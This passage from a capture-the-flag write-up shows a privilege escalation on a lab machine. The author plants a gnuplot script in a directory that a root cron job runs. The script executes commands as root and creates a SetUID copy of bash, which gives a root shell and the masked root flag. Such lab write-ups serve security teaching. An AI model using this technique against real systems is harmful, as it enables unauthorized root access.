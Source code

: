 
I'll write that to a `.plt` file (using `cat` and `<< EOF` to write
until it gets a line with `EOF`):



    vdaisley@topology:/opt$ cat > /opt/gnuplot/0xdf.plt << EOF
    > set print "/dev/shm/0xdf-output"
    > output = system("id")
    > print(output)
    > EOF



When the next minute rolls over, the output file is there:



    vdaisley@topology:/opt$ cat /dev/shm/0xdf-output 
    uid=0(root) gid=0(root) groups=0(root)



It executed as root.

#### Shell

I'll update my `.plt` file to create a copy of `bash` owned by root with
the SetUID/SetGID bits on:



    vdaisley@topology:/opt$ cat > /opt/gnuplot/0xdf.plt << EOF
    > system("cp /bin/bash /tmp/0xdf")
    > system("chmod 6777 /tmp/0xdf")
    > EOF



Next minute, the file is there, and the user and group execute
permissions are `s`, showing that it worked:



    vdaisley@topology:/opt$ ls -l /tmp/0xdf 
    -rwsrwsrwx 1 root root 1183448 Sep  7 14:10 /tmp/0xdf



I'll run that with `-p` to not drop privs, and get a shell as root:



    vdaisley@topology:/opt$ /tmp/0xdf -p
    0xdf-5.0# id
    uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) egid=0(root) groups=0(root),1007(vdaisley)



And read the second flag:



    0xdf-5.0# cat /root/root.txt
    76b6f060************************


